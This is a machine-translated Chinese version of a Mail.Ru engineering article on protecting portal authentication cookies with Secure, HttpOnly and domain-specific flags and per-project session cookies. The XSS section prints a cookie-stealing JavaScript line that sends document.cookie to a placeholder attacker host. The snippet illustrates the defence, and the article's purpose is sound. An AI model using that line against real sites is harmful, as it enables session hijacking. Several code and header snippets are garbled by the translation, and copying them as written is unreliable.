



# 分而治之:我们如何在邮件中实现会话分离。Ru 门户

> 原文：<https://medium.com/hackernoon/divide-and-govern-how-we-implemented-session-separation-at-mail-ru-portal-ea5619ed12ef>

在 **开头……**

邮件。Ru 是一个巨大的门户网站，创建于 15 年前。从那时起，我们已经从一个小的网络项目发展成为访问量最大的 Runet 网站。门户包含大量的服务，每个服务都有自己的故事和独立的开发团队，他们必须尽最大努力确保所有项目(新的、旧的和随着门户的发展而加入的项目)共享一个用户认证系统。多年后，我们最终面临一个几乎相反的任务:独立的用户会话。为什么这是必要的，什么障碍绊倒了我们，我们如何绕过他们将在这篇文章中讨论。

如果我们回到过去，我们所有的服务都是一个二级域的一部分，并被分成三级域，那么引入通用授权似乎是一个微不足道的问题。为了完成这项任务，我们简单地选择了经典的(当时的)方法:我们引入了一个在所有可用资源之间共享的单一身份验证表单，在二级域上设置一个身份验证 cookie，并开始在服务器端验证传输的 cookie。美观、简洁、实用:

*Set-Cookie:Mpop = 1406885629:FBD 9 c 78 CDB 2c 08634 e 0977 fa 1 b 9 e 6 c 6 c:user @ mail . ru:；domain=.mail.ru* 然而，时代在变…

师师**何敌不眠**

随着我们公司的成长，用户账户成了各种不法分子渴望的猎物。先来的只是用蛮力。这些入侵者什么也没做，只是强行输入用户密码，搜索那些记得自己出生日期或宠物名字的人。

不久之后，网络钓鱼者紧随其后，向门户网站用户发送与他们从 Mail.Ru 收到的电子邮件类似的电子邮件。这些邮件中要么包含伪装成门户网站身份验证点的站点链接，要么使用其他方法从用户处骗取密码。

**我们也不睡觉**

为了打击网络钓鱼者和暴力破解者，反垃圾邮件和安全团队被召集起来采取行动。技术和用户教育最终取得了成果，安全漏洞大大减少。(尽管弱密码和人类的易受骗性是我们今天谈论的帮助黑客的主要因素——但那是另一篇文章了，伙计们。过了一会儿，这项业务开始真正赚钱，鲨鱼也加入了这个小圈子，他们中的一些人寻找网络服务中的漏洞，并利用这些漏洞获取用户账户。雪上加霜的是，他们还找到了监听用户电脑和我们服务之间流量的方法。所有这些非法活动的目标都是用户认证会话——换句话说，就是门户的认证 cookie。

**HTTPS 一直是 HTTPS 吗？**

我们将对用户数据安全至关重要的服务，例如邮件或云，隐藏在 [HTTPS](https://hackernoon.com/tagged/https) 之后。当时，使用安全的 HTTPS 连接协议似乎是我们问题的解决方案。通过这种连接传输的数据经过加密和签名，因此第三方无法读取或更改它们。

Plaintext transmission

但是，如果位于服务器和浏览器之间的黑客通过不安全的协议强迫用户的浏览器访问门户网站，会发生什么呢？要做到这一点，只需拦截以非加密形式发送给用户的任何 HTTP 响应，并向其中添加一个带有正确地址的图像:

HTTPS stripping attack

黑客因此迫使用户的浏览器通过不安全的连接访问门户。如图所示，session_id cookie 通过非加密连接自动发送到门户服务器，毫无疑问，黑客很容易就能拦截它。之后，他们可以像知道实际密码一样轻松地使用该帐户。为了防止这种情况，服务器可以将 cookie 标记为安全的。它会通知浏览器，只有当连接使用 HTTPS 协议时，cookie 才应该发送到服务器。cookie 标记如下:

*HTTP/1.1 200 OK
Content-type:text/html
Set-Cookie:session _ id = c 9 AAF 792 b 29 AFC 98 fc 12 CD 613 e 5330 b 6；安全*

这是在服务器上配置 HTTPS 时需要考虑的重要一点:为认证 cookies 设置安全标志对于现代 web 服务来说是绝对必要的。如果你有一个大的门户网站，那就更是如此。如果存在集中式身份验证，那么对门户域中的服务使用 HTTP 为任何试图绕过 HTTPS 的人开了绿灯。然而，即使一切都在 HTTPS 之后，并能抵御流量拦截，仍然存在利用 web 服务漏洞的风险，例如 XSS。这迫使公司要么完全放弃通用认证，要么选择另一种方式(我们将在后面讨论)。

另一个对 HTTPS 剥离攻击的保护是 HSTS 与 HSTS 预载，它要求所有子域支持 HTTPS，这是一个不同的故事。

X

根据俄罗斯维基百科文章的翻译，“跨站脚本(或 XSS)可能被用于绕过访问控制或窃取用户凭证等”。当攻击者利用 XSS 漏洞时，在大多数情况下，身份验证 cookie 是他们想要的，他们可以用它来访问用户的帐户。为了劫持用户会话，黑客通常使用类似于以下代码的 JS 代码:

***var****іmg =****new****image()；*

іmg.src = ' http://hacker . site/XSS-sniffer . PHP？'+document . cookie；

毫无疑问，处理 XSS 错误的最重要和最有效的方法是通过测试、开发人员培训、代码审查和安全审计来防止错误的产生。然而，当有许多项目由不同的人员配备良好的团队工作时，不可能有绝对无错的代码。我们的主要目标是保护用户账户；我们必须确保它们是安全的，不管系统是否有 XSS 漏洞，或者是否有人试图利用它们。HttpOnly cookies 来拯救我们了。HttpOnly cookies 不可能用 JavaScript 读取，但是它们仍然可以像任何其他 cookie 一样被服务器脚本访问。尽管事实上这种技术并不新颖(例如微软在 8 年前在 IE6 SP1 推出了 HttpOnly cookies)，但并不是每个人都知道为什么尽可能使用它们是值得的。JS 无法访问的 cookie 是计划 XSS 攻击的邪恶分子的第二道防线，因为在页面上偷偷摸摸的恶意代码将无法使用 document.cookie 窃取用户 cookie。此外，在 cookie 中使用 HttpOnly 标志有助于保护用户帐户免受不受信任的脚本、横幅或计数器的影响，这些脚本、横幅或计数器可能会从公司无法控制的资源中加载。

天底下没有十全十美的事情，HttpOnly cookies 也不是万灵药:HttpOnly 标志并不能提供对 XSS 漏洞的完全保护。但是，它不允许 JS 代码劫持身份验证会话，从而极大地缩小了其被利用的可能性。但是也有不能用的情况。例如，当闪光灯被频繁使用时。然而，这还不足以成为完全放弃 HttpOnly cookies 的理由。您可以通过结合使用这两种类型的 cookies 并尽可能只使用 HttpOnly 来将风险降至最低。现在我们已经为 cookies 添加了 Secure 和 HttpOnly 标志——还需要做什么呢？

D特定于域的 cookie

您可能还记得，为了确保我们公司所有服务的端到端身份验证，我们过去在二级域中使用单一身份验证 cookie 集。一个通用的身份验证 cookie 不仅仅是方便用户；这也是一种通过公司任何项目代码中的一个漏洞就能同时访问所有服务的方法。因此，通过从*a-site-with-common-authentication.example.com*服务中窃取认证 cookie，我们获得了对【b-site-with-common-authentication.example.com】T2 的访问权。

流量嗅探的工作方式类似，除非使用安全 cookies。如果一个公司的服务是安全的，并且使用 HTTPS，而另一个使用 HTTP，那么您所要做的就是指示浏览器调用不太安全的服务，窃取身份验证 cookie，并将其用于安全服务中的身份验证。

现在为了解决这个问题，添加了带有*域*属性的 Cookie:

*HTTP/1.1 200 OK
Content-type:text/html
Set-Cookie:session _ id = c 9 AAF 792 b 29 AFC 98 fc 12 CD 613 e 5330 b 6；domain = a . example . com；安全*

浏览器现在将仅发送此 cookie 来响应对 a.company.com 域及其子域的查询。当使用特定于域的 cookies 时，如果任何一个服务有漏洞，它将是唯一受到攻击的服务。对于 XSS 和其他漏洞来说都是如此。

W说唱起来

因此，我们将最关键的服务转移到了 HTTPS，引入了特定领域的 cookies，搜索并消除了漏洞，并试图从各个角度保护我们自己和我们的用户。但是，如果仍然提供单一身份验证呢？为了在 HTTP 和 HTTPS 共存的多样化环境中做到这一点，我们引入了额外的特定于域的 cookies 作为每个项目的额外安全措施。除了遗留的主身份验证 cookie (Mpop)之外，还为项目的域设置了一个附加的 cookie (sdc)。只有当两个 cookie(Mpop 和域内 sdc cookie)都存在时，用户身份验证才有效。

SDC (Secure Domain Cookie) authentication process on project page

邮件中的会话分离机制。Ru 的工作方式如下:用户身份验证总是通过单点登录 auth.mail.ru 进行，它需要一个登录名和密码(可能还有第二个因素),并发出一个带有安全和 HttpOnly 标志的域 cookie .auth.mail.ru。没有一个项目可以访问用户的登录名和密码。任何项目都无法使用. auth.mail.ru cookie。

当用户访问他尚未登录的项目站点时，他的请求将被转发到认证点，认证点通过. auth.mail.ru cookie 对他进行认证，生成一次性令牌并使用该令牌重定向到项目的监听器页面。项目的侦听器将令牌代理到身份验证点，身份验证点使用令牌生成项目 cookie，这一次是针对. project.mail.ru。这样，您就保留了门户单一身份验证的所有优势，并以对用户透明的方式提供了对不同资源的单独身份验证访问。
访问分离使我们能够以更一致的方式保护我们的资源，而不仅仅依赖于“外部电路”——即使攻击者设法劫持其中一个资源上的会话或以其他方式破坏它，用户遭受的损害也将是最小的。除了单独的会话，还有其他对用户不可见的单独访问技术(这很酷！).但是我们将在另一篇文章中讨论这个问题。

总的来说，我们可以得出结论，即使是联合在一个公共平台上的服务也必须(在引擎盖下)分道扬镳，我们目前正在自己的门户上应用这种方法。我们确信，俄罗斯的其他公司很快也会效仿，相当一部分网络犯罪分子会发现自己突然失业了。

敌人不得通过！

*   **本文原载* [*于 2014 年 8 月 04 日俄文版*](https://habrahabr.ru/company/mailru/blog/228997/) *。*